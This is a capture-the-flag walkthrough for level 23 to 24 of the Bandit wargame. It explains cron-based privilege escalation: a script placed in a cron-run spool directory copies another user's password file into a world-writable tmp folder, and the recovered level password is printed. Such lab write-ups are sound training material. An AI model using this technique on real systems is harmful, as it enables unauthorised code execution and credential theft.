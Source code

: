 # Bandit Level 23 --> Level 24
## Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level
cron, crontab, crontab(5) (use “man 5 crontab” to access this)

## Solution

change dir to /etc/cron.d then see its content
```console
bandit23@bandit:~$ cd  /etc/cron.d/ 
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
```

Open cronjob_bandit24 to see the command
```console
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
```console
bandit23@bandit:/etc/cron.d$ cat bandit24 /usr/bin/cronjob_bandit24.sh
cat: bandit24: No such file or directory
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
Make bash script copy bandit24 pass in tmp dir 
```console
bandit23@bandit:/etc/cron.d$ mkdir /tmp/bandlev23
bandit23@bandit:/etc/cron.d$ cd /tmp/bandlev23
bandit23@bandit:/tmp/bandlev23$ chmod 777 /tmp/bandlev23
bandit23@bandit:/tmp/bandlev23$ nano script.sh
```
bash script
```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandlev23/pass.txt
echo "pass copied"
```

Copy your script (after make it executable) to /var/spool to execute as mention in cron
```console
bandit23@bandit:/tmp/bandlev23$ chmod 777 script.sh
bandit23@bandit:/tmp/bandlev23$ cp script.sh /var/spool/bandit24
```
Wait 60s then
```console
bandit23@bandit:/tmp/bandlev23$ ls
pass.txt  script.sh
bandit23@bandit:/tmp/bandlev23$ cat pass.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
## Password
> UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

  
